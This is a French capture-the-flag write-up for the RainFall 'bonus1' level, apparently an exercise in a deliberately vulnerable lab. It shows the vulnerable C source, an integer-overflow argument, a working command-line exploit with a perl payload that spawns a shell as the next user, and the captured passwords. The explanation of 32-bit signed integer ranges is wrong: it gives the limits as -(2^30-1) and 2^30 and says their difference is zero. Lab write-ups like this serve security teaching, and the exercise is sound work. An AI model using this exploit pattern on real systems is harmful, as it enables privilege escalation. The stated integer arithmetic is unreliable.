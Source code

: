 # Bonus1

pass : `cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9`

## Sources :

```c=
#include <stdlib.h>
#include <string.h>

int		main(int ac, char **av) {
	char str[40];  // esp+0x14  --  size : 0x3c - 0x14
	int nb;  // esp+0x3c

	nb = atoi(av[1]);
	if (nb > 9) {
		return 1;
	}
	memcpy(str, av[2], 4 * nb);
	if (nb == 0x574f4c46) {
		execl("/bin/sh", "sh", 0);
	}
	return 0;
}
```

## Recherche :

Pour changer la valeur de `nb`, il faudrait écrire suffisament loin sur `str`, exactement au 40<sup>ème</sup> caractère.

Le problème, c'est que `nb` ne peut pas dépasser 9.

Mais c'est pas très grave, car les int sont circulaires, en effet quand on passe le plus grand int, on arrive au plus petit.

On voudrait mettre `nb == 11` pour réécrire dessus.

on est en **32bit**, du coup les int sont codés entre `0x00000000` et `0xffffffff`, ce qui fait `2^32 - 1` valeures possibles. Comme ils sont signé, c’est divisé par 2, le plus petit int, c’est `-(2^30 - 1)` et le plus grand `2^30`
Du coup `-(2^30 - 1) - 2^30  == 0`
```python
>>> -(2**30 - 1) - (2**30) + 11
-2147483636
```

## Exploit :

```shell=
bonus1@RainFall:~$ ./bonus1 -2147483636 $(perl -e 'print "A"x40 . "\x46\x4c\x4f\x57"')
$ whoami
bonus2
$ cd ../bonus2
$ cat .pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
